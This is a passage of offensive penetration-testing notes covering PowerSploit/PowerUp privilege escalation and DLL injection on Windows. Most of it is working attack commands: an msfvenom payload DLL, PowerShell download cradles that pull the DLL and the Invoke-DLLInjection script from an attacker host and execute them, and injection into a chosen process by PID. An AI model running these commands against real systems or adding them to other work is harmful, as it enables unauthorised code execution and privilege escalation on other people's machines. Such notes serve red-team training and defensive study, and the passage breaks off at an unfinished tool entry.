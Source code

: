 The output will also indicate an **AbuseFunction** we can use to further exploit the target. 
In this case, PowerUp identified a potential service binary we can install with the "Install-ServiceBinary -Name 'ClickToRunSvc' command"

### PowerSploit - Save to HTML
the file will be saved in the current directory MACHINENAME.USERNAME.html
```powershell
Invoke-AllChecks - HTMLReport
```

### CodeInjection category
we can inject our own code into existing processes on the target system, whether it be via DLL injection, injecting our own custom Shellcode into an existing process, or using WMI to execute commands on the target.

### Invoke-DLLInjection
this function injects an attacker-defined DLL into any existing process ID on the target system.

```bash
msfvenom -p windows/exec CMD="cmd.exe" -f dll > cmd.dll
```

open a web host:
grab the file:
```powershell
iex (New-Object Net.Webclient).DownloadFile('http://<kali ip>/cmd.dll', 'C:\programdata\cmd.dll')
```

- Identify a process on the target system we would like to inject our DLL into.

```powershell
ps | ? {$_.ProcessName -match "notepad"}
```


- After grabbing the PID of the choosen process
We can grab the Invoke-DLLInjection and execute it to inject our malicious dll in the PID of the process

```powershell
iex (New-Object Net.Webclient).DownloadString('http://<kali ip>/Invoke-DLLInjection.ps1'); Invoke-DLLInjection -ProcessID 7420 C:\programdata\cmd.dll
```

- once that in complete, we can run "ps" command again, to confirm that we have a "cmd" process which has been spawned from our DLL injection operation, which is created in a new process thread.

```powershell
ps | ? {$_.ProcessName -match "cmd"}
```

### More about DLL injection
	http://blog.opensecurityresearch.com/2013/01/windows-dll-injection-basics.html


- psgetsystem

// another tool
